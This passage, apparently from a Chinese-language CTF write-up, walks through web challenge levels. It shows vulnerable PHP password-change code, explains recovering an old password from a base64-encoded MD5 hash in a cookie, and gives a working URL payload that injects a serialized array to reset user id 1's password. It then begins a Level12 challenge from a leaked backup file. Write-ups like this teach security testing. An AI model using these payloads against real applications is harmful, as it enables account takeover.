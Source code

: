 ```php
$row = mysql_fetch_assoc($result);
foreach($row as $key => $value){
    $userInfo[$key] = $value;
}

$oldPass = @$_REQUEST['oldPass'];
$newPass = @$_REQUEST['newPass'];
if($oldPass == $userInfo['password']){
    $userInfo['password'] = $newPass;
    $query = 'UPDATE users SET pass = \''.clear($newPass).'\' WHERE id = \''.clear($userInfo['id']).'\';';
    mysql_query($query);
    echo 'Password Changed Success.<br>';
}
else{
    echo 'Invalid old password entered.';
}
```

首先对 `userInfo` 进行反序列化，随后要求两个参数 `oldPass` 和 `newPass`，后者随意设置，前者很容易得到。在 Cookie 中发现 `pass=OTA0OGM1MGUwOTJmM2IyZWRlYzM5NTFiZjdiZGFlNTA%3D; id=3`，进行 base64 解码和 md5 解密后得到 `oldPass=20151231`。

最后就是在 payload 中构造一个序列化的 userInfo 数组，payload:

```
changepassword.php?userInfo=a:2:{s:2:"id";i:1;s:4:"pass";s:8:"20151231";}&oldPass=20151231&newPass=11111111
```

### Level12

备份文件 `index.php.`：

```php
<?php
#GOAL: get password from admin;
error_reporting(0);

require 'DB_config_inc.php';

dvwaDatabaseConnect();

$_CONFIG['Security']=true;

//if register globals = on, undo var overwrites
foreach(array('_GET','_POST','_REQUEST','_COOKIE') as $method){
     foreach($$method as $key=>$value){
          unset($$key);
     }
}

function clear($string){
    //filter function here

}

$username = isset($_POST['username']) ? clear($_POST['username']) : die('Please enter in a username.');
$password = isset($_POST['password']) ? clear($_POST['password']) : die('Please enter in a password.');

if($_CONFIG['Security']){
     $username=preg_replace('#[^a-z0-9_-]#i','',$username);
     $password=preg_replace('#[^a-z0-9_-]#i','',$password);

}
```